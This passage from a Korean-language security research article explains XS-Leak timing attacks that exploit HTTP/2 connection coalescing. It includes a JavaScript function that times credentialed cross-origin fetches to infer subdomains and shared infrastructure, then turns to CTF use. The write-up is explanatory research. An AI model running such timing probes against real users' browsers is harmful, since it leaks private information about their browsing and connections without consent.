 ```jsx
async function detectConnectionCoalescing(primaryDomain, targetDomains) {
  await fetch(`https://${primaryDomain}/`, {
    cache: "no-store",
    method: "GET",
    mode: "no-cors",
    credentials: "include",
  });

  let coalescingResults = [];

  for (let domain of targetDomains) {
    let start = performance.now();
    try {
      await fetch(`https://${domain}/`, {
        cache: "no-store",
        method: "GET",
        mode: "no-cors",
        credentials: "include",
      });
    } catch {}

    let duration = performance.now() - start;

    coalescingResults.push({
      domain: domain,
      duration: duration,
      coalesced: duration < 50,
    });
  }

  return coalescingResults;
}

await detectConnectionCoalescing("example.com", [
  "api.example.com",
  "cdn.example.com",
  "mail.example.com",
]);
```

위 방법을 통해 공격자는 사용자가 직접적으로 방문하지 않은 서브도메인들에 대한 정보를 유추할 수 있으며 또한 CDN 서비스나 클라우드 호스팅 서비스를 사용하는 웹사이트의 경우 공격자는 서로 관련이 없어 보이는 도메인들이 실제로는 동일한 인프라를 공유하고 있다는 사실 등을 유추할 수 있다.

이와 같이 HTTP/1.1, HTTP/2에서 효율성을 목적으로 도입된 메커니즘들이 XSLeak와 같은 취약점으로 이어질 수 있다. 본 리서치에서 소개한 방법 외에도 Timing Attack 공격들이 많이 존재한다. 만약 Timing Attack 통한 XSLeak 기법에 대해서 더 많은 관심이 있을 경우 `xsleaks.dev` Timing Attack 섹션에 소개된 다양한 레퍼런스들을 참고하면 좋다.

### How does Timing Attacks XSLeak apply to CTF?

Timing Attack 공격은 XSLeaks 취약점 중 유명한 공격 기법 중 하나에 꼽힌다. 또한 정밀 시간 측정이 가능한 사실만으로도 공격자는 사용자의 브라우저 상에서 상당히 많은 정보들을 유추하고 유출할 수 있다.
